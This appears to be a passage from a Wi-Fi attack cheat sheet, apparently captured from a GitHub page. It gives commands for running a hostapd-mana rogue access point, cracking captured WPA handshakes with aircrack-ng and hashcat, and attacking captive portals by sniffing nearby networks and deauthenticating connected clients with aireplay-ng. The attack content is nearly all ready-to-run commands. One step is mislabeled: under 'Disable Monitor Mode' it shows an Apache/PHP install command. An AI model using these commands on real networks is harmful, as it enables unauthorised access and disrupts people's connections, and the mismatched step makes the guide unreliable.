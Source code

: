 Start hostapd-mana:

```
sudo hostapd-mana hostapd-mana.conf
```

**Cracking .hccapx Files**

**aircrack:**

```
aircrack-ng name.hccapx -w /wordlist/rockyou.txt
```

If you run into errors, you may try:

```
aircrack-ng name.hccapx -e ESSID -w /wordlist/rockyou.txt
```

**hashcat:**

```
hashcat -m 2500 capture.hccapx /usr/share/worlists/rockyou.txt

```

# **Attacking Captive Portals**

This guide provides step-by-step instructions for setting up a wireless network monitoring and attack environment.

**1. Set Interface to Monitor Mode**

Begin by capturing information about clients and access points (APs) around you:

```
sudo airodump-ng wlan0mon
```

**2. Adjust the Capture**

To specify the capture details, use:

```
sudo airodump-ng -w fileName –output-format pcap -c channelnumber interface
```

**3. De-authenticate Connected Devices**

Wait until the WPA handshake is captured:

```
sudo aireplay-ng -0 amountOfdeauths -a ApBSSID interface
```

**4. Disable Monitor Mode**

After completing the capture, disable monitor mode:

```
sudo apt install apache2 libapache2-mod-php
```
